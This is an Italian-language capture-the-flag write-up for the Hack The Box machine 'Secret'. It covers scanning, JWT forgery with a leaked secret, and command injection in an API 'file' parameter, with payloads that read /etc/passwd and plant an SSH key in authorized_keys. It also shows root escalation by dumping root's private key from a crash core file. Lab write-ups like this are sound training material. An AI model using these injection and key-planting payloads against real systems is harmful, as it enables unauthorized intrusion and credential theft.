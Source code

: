 # HTB-Secret-WriteUp
Write Up of HTB machine: Secret, made public on 02/04/2022

Prima di poter connettersi ad una macchina di HTB è necessario scaricare il certificato della VPN dalla dashboard ed utilizzare OpenVPN:

**$openvpn [file.ovpn]**

![image](https://user-images.githubusercontent.com/65173648/150963493-27b74dcf-dc73-4008-952e-20b67bcf793f.png)

Effettuo lo scanning (fase in cui cerchiamo di raccogliere quante più informazioni possibili dall'host):

**$nmap -sS -p- -T4 -Pn -oA portScan [IP target]**

![image](https://user-images.githubusercontent.com/65173648/150964450-75c5a322-0788-4eea-85b4-93f372503525.png)

Effettuo l'enumeration (fase in cui cerchiamo di approndire le informazioni andando ad enumerare le porte trovare in fase di scansione):

**$nmap -sV -sC –p [porte trovate separate da virgola] -oA versionScan [IP target]**

![image](https://user-images.githubusercontent.com/65173648/150964922-e59aae36-22f5-4b6a-901e-a12fc41d63b6.png)

Si può notare, a prima vista, che sono presenti un web server su porta 80 e un'applicazione in Node.js su porta 3000, riportanti lo stesso titolo.

Applicazione Web:

![image](https://user-images.githubusercontent.com/65173648/150966584-c3ff72de-143a-469e-a062-19af3089a506.png)

Andando a spulciare il sito a mano e investigando nelle cartelle si notano dei path interessanti da approfondire. 

Utilizzo **gobuster** e mi salvo l'output dell'enumeration:

**$gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt dir -u [IP target] | tee WebEnumeration.txt**

![image](https://user-images.githubusercontent.com/65173648/150967244-a7e380ac-d6a0-42d9-8ec8-cae82fa97c08.png)

Uno dei path interessanti è **/api** (potenziale punto d'accesso alla macchina).

La sezione relativa alla documentazione dell'applicazione web presenta un esempio di login con "theadmin". Provo a creare un utetne con le stesse credenziali ma non va a buon fine:

**$curl -i -X POST -H 'Content-Type: application/json' -d '{"name":"theadmin", "email":"drt@dasith.works", "password":"provaPassword"}' http://10.10.11.120/api/user/register**

![image](https://user-images.githubusercontent.com/65173648/150968135-0f22d504-5734-4e5e-95d6-4d3c306383d0.png)

Decido di creare un utente personale e provare a bypassare la JWT validation dato che nel file routes/verifytoken.js è presente un algoritmo JWT non specificato:

(Se riesco a bypassare la JWT, da utente user potrei diventare admin.)

**$curl -i -X POST -H 'Content-Type: application/json'-d '{"name":"m96dgHack", "email":"m96dg@hack.it", "password":"provaPassword"}' http://10.10.11.120/api/user/register**

  
 ![image](https://user-images.githubusercontent.com/65173648/150968542-a24017bf-66d5-432d-9d0c-f06b4f17b31b.png)

Effettuo il login:

**$curl -i -X POST -H 'Content-Type: application/json'-d '{"email":"m96dg@hack.it", "password":"provaPassword"}' http://10.10.11.120/api/user/login**
  
  ![image](https://user-images.githubusercontent.com/65173648/150968638-7e7393da-04f2-4bc7-9bb9-8ae554e471e7.png)

Noto che mi viene generato un **AUTH-TOKEN** e me lo conservo.

All'interno delle cartelle c'è un file **.env** che fa riferimento ad un **TOKEN_SECRET**.

Utilizzando **jwt.io** si può notare come sia presente una voce "secret" in basso a destra, ossia un box dove inserire il token segreto dalla "history" della cartella **.git**. Il token secret del file .env non è quello giusto.

Seguire i comandi degli screen che seguono:

![image](https://user-images.githubusercontent.com/65173648/150969681-588a871c-28ba-43b6-a282-2c5c7d5b3bda.png)

![image](https://user-images.githubusercontent.com/65173648/150969704-33da6ee3-3d66-43fe-a881-d65dd8dabf66.png)

![image](https://user-images.githubusercontent.com/65173648/150969732-50fdf5ba-28e3-4c14-a68a-51123f33cdc0.png)

Conservare il TOKEN_SECRET ed utilizzarlo in combo con l'AUTH-TOKEN.

La combinazione **AUTH-TOKEN + TOKEN_SECRET** darà luogo al nuovo token decriptato da inserire per accedere come admin (prima, però, bisogna modificare il "name" da "m96dgHack" in "**theadmin**").

![image](https://user-images.githubusercontent.com/65173648/150970069-d94737c6-af0e-401a-ad78-305b3dd6d10b.png)

Arrivato a questo punto, mi incuriosisce sapere se posso effettivamente sfruttare le api sia come user sia come admin (utilizzo AUTH-TOKEN e token decriptato):

**$curl -w '\n' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoibTk2ZGdIYWNrIiwiZW1haWwiOiJtOTZkZ0BoYWNrLml0IiwiaWF0IjoxNjQxNjQzMDI5fQ.l8Abgxt-ECwkhofDuNU08KoUIPAvSY8E8IZkqXUdg6c' http://10.10.11.120/api/priv**
  
  ![image](https://user-images.githubusercontent.com/65173648/150971154-b2bbb366-ad32-4158-8158-b73e45fa89af.png)

  
 **$curl -w '\n' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im05NmRnQGhhY2suaXQiLCJpYXQiOjE2NDE2NDMwMjl9.ghzttiJ53g9Q-cufWxhvEez8572dkHHhYlcoyzfPUAQ' http://10.10.11.120/api/priv**
  
  ![image](https://user-images.githubusercontent.com/65173648/150971181-eff13e84-1a28-4f8e-874a-4a798b255a59.png)

Sfrutto le api per leggere il file di logs:

**$curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im05NmRnQGhhY2suaXQiLCJpYXQiOjE2NDE2NDMwMjl9.ghzttiJ53g9Q-cufWxhvEez8572dkHHhYlcoyzfPUAQ
  ' 'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'**
  
 Noto l'utente "**dasith**" e provo ad accedere in ssh, ricordandomi le porte scansionate (porta **22** aperta).
 
 ![15 api_admin_dasith](https://user-images.githubusercontent.com/65173648/151326742-23c075b0-03d4-4753-a3ee-54e835c0bdb4.PNG)

 
 Creo una coppia di **chiavi ssh** e copio la mia chiave pubblica all'interno del server così da poter sfruttare la connessione in ssh:
 
 **$ssh-keygen -t rsa -f secret.htb -P ''**
 
 ![image](https://user-images.githubusercontent.com/65173648/150971755-ebbbeecd-b0dc-45ff-b667-a1a3581bb317.png)

![image](https://user-images.githubusercontent.com/65173648/150971768-7dbbe444-9f5b-489e-91eb-9e64a46c9d17.png)


**$export PUBLIC_KEY=$(cat secret.htb.pub)**
 
**$curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWQ5N2JlM2JiMzNiMzA0NzFkM2JjODgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im05NmRnQGhhY2suaXQiLCJpYXQiOjE2NDE2NDMwMjl9.ghzttiJ53g9Q-cufWxhvEez8572dkHHhYlcoyzfPUAQ
' -G 'http://10.10.11.120/api/logs' --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys"**

![image](https://user-images.githubusercontent.com/65173648/150971800-84475b47-5ffd-4f71-8545-1804a76dbb5c.png)

Una volta loggato in ssh, ho ottenuto l'accesso come utente di sistema e ricavo la flag **user.txt**:

 ![extra_flag_user](https://user-images.githubusercontent.com/65173648/150972236-60828c9b-c848-46fd-9163-0456f942bf2b.PNG)


Ottenuta la user flag, procedo con la **privilege escalation** (fase in cui si sfrutta l'utente di sistema per accedere all'utente root con permessi di amministratore).

Cerco di sfruttare al meglio i path a cui può accedere l'user, e noto il path **/opt**, in cui sono presenti **3 file** interessanti (di cui 1 compilato).

Decido di runnare il file e provare ad accedere con i permessi di root:

![20_run_count](https://user-images.githubusercontent.com/65173648/150973629-7956f73a-f0c9-4bdf-995e-71375f97fc01.PNG)

Nulla di interessante!

Leggendo il file **valgrind.log** noto che c'è un riferimento alla memoria e decido di sfruttare il **Core Dump** (eseguo il programma e lo induco al crash):

![22_coredump_crash](https://user-images.githubusercontent.com/65173648/150974294-45be22c0-ea87-4679-a937-5ca3a270fced.PNG)

![23_sigsegv](https://user-images.githubusercontent.com/65173648/150974320-b7c989e2-6633-4ea1-91f9-861e5fa9c51c.PNG)


**$apport-unpack_opt_count.1000.crash /tmp/crash-report**

![24_reports](https://user-images.githubusercontent.com/65173648/150974637-1cbce728-01b3-47e3-9da8-0f5cb014e4eb.PNG)

Sfrutto **strings** per CoreDump:

![25_strings_coredump](https://user-images.githubusercontent.com/65173648/150974709-b202ed57-54dd-4d6b-98b3-18af75c4a9b7.PNG)

Dato che ottengo dei risultati importanti, decido di sfruttare lo stesso metodo con **/root/.ssh/id_rsa** e provare ad accedere alla chiave privata di root:

![26_crasf_for_idrsa](https://user-images.githubusercontent.com/65173648/150974882-372aeb35-7991-4782-b48c-61b1fdbdb83f.PNG)

E' possibile copiare la chiave privata di root dai risultati e provare ad accedere in ssh con essa:

![extra_root_user](https://user-images.githubusercontent.com/65173648/150975112-b57dbda8-cf9b-4915-8897-9aa899a811fe.PNG)

Ho trovato la **root.txt**!

Una volta che si inseriscono le due flag in HTB, il gioco è fatto!

![28_pwned](https://user-images.githubusercontent.com/65173648/150975209-def9973c-d6a4-4a35-8763-4665c02dd33d.PNG)








